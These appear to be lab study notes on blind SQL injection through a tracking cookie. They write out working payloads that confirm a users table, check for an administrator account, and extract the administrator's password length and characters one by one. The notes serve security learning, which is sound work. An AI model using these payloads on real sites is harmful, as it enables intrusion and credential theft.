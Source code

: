 - if you submit recognized TrackingId -> query returns data -> you receive 'Welcome back' message in reponse
```sql
…xyz' AND '1'='1
…xyz' AND '1'='2
```

Determining password for the user by sending a series of inputs to test the password one char at a time
- next query returns 'Welcome Back'
- injected condition is true
```sql
xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 'm
```
- this query does not return 
```sql
xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 't
```

The `SUBSTRING` function is called `SUBSTR` on some types of database. 

### Lab
Environment
- app uses tracking cookie 
- performs SQL query containing the value of submitted cookie
- results aren't returned, no error messages are displayed
- app include 'Welcome Back' message  if the query returns any rows
- assume password only contains alphanumeric alphabet

Changing cookie to check if 'Welcome Back' appears
```sql
Cookie: TrackingId=r6QmFU1pxLfPEi8l' AND '1'='1;
```

Verify that there is a table called 'users' and condition is true
```sql
...xyz' AND (SELECT 'a' FROM users LIMIT 1)='a
```

Verify that there is a Administrator `username` in the table `users`
```sql
' AND (SELECT 'a' FROM users WHERE username='administrator')='a
```

#### Determining the length
Determine how many chars are in the password of the administrator (should be true)
```sql
' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>1)='a
```

Send a series of follow-up values to test different password lengths
```sql
TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>2)='a
TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>3)='a
```
